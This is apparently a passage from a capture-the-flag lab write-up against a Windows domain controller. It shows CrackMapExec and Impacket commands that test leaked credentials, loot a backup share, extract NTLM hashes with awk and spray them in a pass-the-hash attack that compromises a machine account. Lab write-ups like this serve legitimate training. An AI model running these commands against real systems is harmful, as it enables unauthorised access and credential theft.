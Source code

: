 This revealed valid credentials:

```
SOUPEDECODE.LOCAL\file_svc : Password123!!
```

##  Accessing the Backup Share

Next, I tested these credentials against SMB shares:

```bash
crackmapexec smb 10.201.1.205 -u "file_svc" -p 'Password123!!' --shares
```

The result confirmed that `file_svc` had **read access to the `backup` share**:

```
Share      Permissions  
-----      -----------  
backup     READ
```
## Looting the Backup Share

I connected to the share using Impacket’s smbclient.py:
```
python3 examples/smbclient.py 10.201.1.205/file_svc:'Password123!!'@10.201.1.205
```

Once inside, I navigated to the backup share and found a single interesting file:

<img width="1057" height="419" alt="image" src="https://github.com/user-attachments/assets/d0b709c5-e5f6-4d22-ab8a-189d425dfa1e" />

I downloaded it:
```
get backup_extract.txt
```
Opening this file revealed a large dump of hashes, which will be the next target for cracking and potential privilege escalation.

## Cracking Backup Hashes → Gaining Access

With the dumped hashes from `backup_extract.txt`, I prepared two wordlists: one with usernames and another with NTLM hashes.

```bash
cat backup_extract.txt | awk -F\: '{ print $4}' > hashes.txt
cat backup_extract.txt | awk -F\: '{ print $1}' > users_hashes.txt
```

Next, I used **CrackMapExec** to test username–hash pairs across SMB:

```bash
crackmapexec smb 10.201.1.205 -u users_hashes.txt -H hashes.txt --no-bruteforce
```

The output showed several login failures, but one stood out:

```
$ crackmapexec smb 10.201.1.205 -u users_hashes.txt -H hashes.txt  --no-bruteforce
SMB         10.201.1.205    445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.201.1.205    445    DC01             [-] SOUPEDECODE.LOCAL\WebServer$:c47b45f5d4df5a494bd19f13e14f7902 STATUS_LOGON_FAILURE 
SMB         10.201.1.205    445    DC01             [-] SOUPEDECODE.LOCAL\DatabaseServer$:406b424c7b483a42458bf6f545c936f7 STATUS_LOGON_FAILURE 
SMB         10.201.1.205    445    DC01             [-] SOUPEDECODE.LOCAL\CitrixServer$:48fc7eca9af236d7849273990f6c5117 STATUS_LOGON_FAILURE 
SMB         10.201.1.205    445    DC01             [+] SOUPEDECODE.LOCAL\FileServer$:e41da7e79a4c76dbd9cf79d1cb325559 (Pwn3d!)
```
